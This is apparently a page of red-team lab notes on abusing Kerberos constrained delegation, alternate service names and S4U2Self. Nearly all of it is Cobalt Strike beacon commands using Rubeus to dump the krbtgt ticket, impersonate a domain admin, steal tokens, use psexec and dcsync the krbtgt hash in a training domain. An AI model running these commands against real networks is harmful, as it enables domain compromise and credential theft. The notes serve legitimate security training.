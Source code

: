 ### Constrained Delegation

>   Make sure to always use the FQDN.  Otherwise, you will see 1326 errors.

* `/impersonateuser` is the user we want to impersonate.
* `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
* `/user` is the principal allowed to perform the delegation.
* `/ticket` is the TGT for /user.


```bash
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
#   You can also request one with Rubeus asktgt if you have NTLM or AES hashes.
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
# Remember that we can impersonate any user in the domain, but we want someone who we know to be a local admin on the target
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap
# New logon session
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
beacon> steal_token 5540
beacon> ls \\dc-2.dev.cyberbotic.io\c$
# or
beacon> jump psexec64 dc-2.dev.cyberbotic.io smb
```

### Alternate Service Name

We can request a service ticket for a service, such as CIFS, but then modify the SPN to something different, such as LDAP, and the target service will accept it happily.

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
beacon> steal_token 2580
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
```

### S4U2Self Abuse

> In the Unconstrained Delegation module, we obtained a TGT for the domain controller.  If you tried to pass that ticket into a logon session and use it to access the C$ share (like we would with a user TGT), it would fail. This is because `machines do not get remote local admin access to themselves`.  What we can do instead is abuse S4U2Self to obtain a usable TGS as a user we know is a local admin (e.g. a domain admin).  Rubeus has a /self flag for this purpose.

Possible error
